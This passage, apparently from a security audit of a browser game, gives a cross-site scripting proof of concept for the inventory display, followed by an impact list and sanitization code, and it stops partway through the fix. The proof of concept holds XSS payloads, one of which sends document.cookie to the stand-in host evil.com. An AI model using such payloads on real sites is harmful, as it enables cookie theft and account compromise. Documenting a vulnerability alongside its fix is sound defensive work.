 #### Proof of Concept
```javascript
// Open browser console and execute:
const game = window.game;
game.inventory.items[0] = {
    name: '<img src=x onerror="alert(\'XSS: Name\')"">',
    icon: '<script>console.log("XSS: Icon")</script>',
    description: '<img src=x onerror="fetch(\'https://evil.com?cookie=\'+document.cookie)">',
    type: 'weapon',
    quantity: 1
};
game.inventory.updateItemsDisplay();
// Result: XSS executes when inventory opens
```

#### Impact Analysis
- ⚠️ **Execute arbitrary JavaScript** in user's browser context
- ⚠️ **Exfiltrate localStorage data** (save games, settings, keybinds)
- ⚠️ **Modify game state** to grant unfair advantages
- ⚠️ **Redirect users** to phishing sites
- ⚠️ **Session hijacking** if authentication is added later

#### Remediation (SECURE)
```javascript
// Create utility sanitization function
class SecurityUtils {
    static sanitizeHTML(str) {
        if (str === null || str === undefined) return '';
        const div = document.createElement('div');
        div.textContent = String(str); // textContent auto-escapes
        return div.innerHTML;
    }
    
    static sanitizeAttribute(str) {
        if (str === null || str === undefined) return '';
        return String(str)
            .replace(/[<>'"]/g, (char) => {
                const entities = { '<': '&lt;', '>': '&gt;', "'": '&#39;', '"': '&quot;' };
                return entities[char];
            });
    }
}

// SECURE CODE - Apply sanitization
updateItemsDisplay() {
    const itemsGrid = document.getElementById('itemsGrid');
    if (!itemsGrid) return;
    
    const slots = itemsGrid.querySelectorAll('.item-slot');
    slots.forEach((slot, index) => {
        const item = this.items[index];
        if (item) {
            slot.classList.remove('empty-slot');
            slot.classList.add('has-item');
            
            // ✅ SANITIZED innerHTML
            slot.innerHTML = `
                <div class="slot-number">${index + 1}</div>
                <div class="item-icon">${SecurityUtils.sanitizeHTML(item.icon)}</div>
                ${item.quantity ? `<div class="item-quantity">${SecurityUtils.sanitizeHTML(item.quantity)}</div>` : ''}
            `;
            
            // ✅ SANITIZED data attributes
```